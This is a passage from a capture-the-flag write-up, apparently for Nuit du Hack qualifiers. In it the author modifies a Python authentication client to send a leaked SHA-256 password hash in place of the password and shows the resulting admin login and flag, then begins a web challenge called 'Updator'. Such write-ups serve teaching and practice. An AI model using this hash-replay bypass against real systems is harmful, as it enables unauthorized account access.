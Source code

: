     [-] Bad password or authentification error... !

As excepted the server show us the username that we replace by its hashed
password. We get the `sha256(admin_passwd)`:
`837a135ad3ccb1978f169aa62a62a028b76ec42b2284791bd4703421ec050529`.

We replace the corresponding python code to directly send the hash:

    :::python
    packet = "AUTH %s|%s" % (username, sha256(sha256(authtoken).hexdigest() + challenge).hexdigest())

Become:

    :::python
    packet = "AUTH %s|%s" % (username, sha256("837a135ad3ccb1978f169aa62a62a028b76ec42b2284791bd4703421ec050529" + challenge).hexdigest())

We execute the script:

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : elQQpNHPDlDk1FO9RUiqDfUyUBRpFGMJ5NuBkGTGnGVYW9SCRluSYlcNQnJYkSHP !
    [+] Auth data : AUTH admin:password
    |8baf1cc43bbe6316ed5959cd8efd2fd8f23d9bae441d4a8134277cd973fcaec4
    [~] Sending auth packet...
    [+] Welcome 837a135ad3ccb1978f169aa62a62a028b76ec42b2284791bd4703421ec050529 we are verifying your password...

    [+] Congrats. The flag is : *INSERT_FUNNY_QUOTE_HERE*

**Flag: \*INSERT_FUNNY_QUOTE_HERE\***


# Updator

Exploit  |  200 points  |  quals.nuitduhack.com/challenges/view/9

updator.challs.nuitduhack.com/

## Statement

*Unhackable : "Not hackable; that cannot be hacked or broken into."

We manage updates and thus have fixes, this is not a PS3 as it is unhackable…
or is it?*

## Challenge

The website is a simple page with a login interface for witch we do not have any
credentials and a **Update** button.
When clicking on the button we got the following message from the page
updator.challs.nuitduhack.com/update.py:
*The update managing system is still under construction but will be available soon.*

### robots.txt

